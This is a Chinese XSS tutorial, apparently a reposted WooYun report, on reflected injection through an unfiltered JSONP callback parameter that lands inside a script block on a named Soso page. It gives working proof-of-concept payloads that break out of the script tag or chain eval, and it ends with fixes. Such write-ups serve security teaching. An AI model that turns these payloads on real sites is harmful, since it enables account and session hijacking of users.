 # 2\. 输出在`<script></script>`之间的情况

# 2\. 输出在`<script></script>`之间的情况

> [2\. 输出在`<script></script>`之间的情况](http://www.wooyun.org/bugs/wooyun-2010-015959)

## 简要描述

接着上面一个教程，我们继续。这个例子属于第一例的特殊情况，当然也有特殊解法。也属于非常常见的一种情况。

## 详细说明

1\. 我们找到这么一个点，也是输入和输出都未过滤的一个点。相比教程第一例，其特殊之处在于，是输出在了 `<script>[输出]</script>` 之间。

```
http://activity.soso.com/common/setParentsInfo.php?callback=aaaaaaaaa 
```

如下图：callback 参数未做过滤。 在【查看源代码】下，我们可以看到。

![image](img/Image_005.jpg)

缺陷网页源代码:

```
<script type='text/javascript'>document.domain='soso.com';_ret={"_res":2};try{parent.aaa(_ret);}catch(err){aaa(_ret);}</script> 
```

2\. 碰到这种情况，我们一般有以下解法。

2.1 首先判断，是否过滤了 `<` , `>` , `/` 等符号，

![image](img/Image_006.jpg)

2.2 如果都没有过滤，恭喜你，一般可以直接 XSS 了。代码如下：

```
http://activity.soso.com/common/setParentsInfo.php?callback=aaaaaaaaa</script><script>alert(1)</script> 
```

原理入下图：

构造 callback 参数后的源代码

```
<script type='text/javascript'>document.domain='soso.com';_ret={"_res":2};try{parent.aaaaaaaaa</script><script>alert(1)</scri pt>(_ret);}catch(err){aaaaaaaaa</script><script>alert(1)</script>(_ret);}</script> 
```

2.3 如果过滤了 `<`, `>`，那么就无法使用上面的办法了。我们接着看

3\. script 代码里的构造。

友情提示：这里可能需要一点点 javascript 的知识才行哦～～ 我们可以如下构造：

```
http://activity.soso.com/common/setParentsInfo.php?callback=eval('alert(1)');void 
```

可以看到，源代码是下面的样子。

![image](img/Image_007.jpg)

也就是说，我们插入的内容，使得这一段 javascript 依然【语法正确】，能够【正确执行】，并且能够执行【我们所插入的 JS 代码】，

这样我们的目的就达到了。 构造后的源代码如下：

```
<script type='text/javascript'>document.domain='soso.com';_ret={"_res":2};try{parent.eval('alert(1)');void(_ret);}catch(err){ eval('alert(1)');void(_ret);}</script> 
```

4\. 这种输出在 JS 代码里的情况十分常见，但是呢？不幸的是，像这样没过滤的情况，却不是很常见。例如： `var a="[输出]"; //` 通常程序员会把 " 过滤掉， 这样的话，一般来说，我们就很难构造。

但是，这并不是说，就一定是不能利用，后面我们会拿腾讯一些【比较有意思】的例子，来进一步说到 这个【输出在 js 里】的情况的～

## 修复方案

这类 XSS 的模型通常是：

```
<script>...[输出]...</script>
<style>...[输出]...</script> 
```

解决方案：

1\. 过滤 `</xxx>` 组合

2\. 针对输出在不同的场景，进行合适的过滤。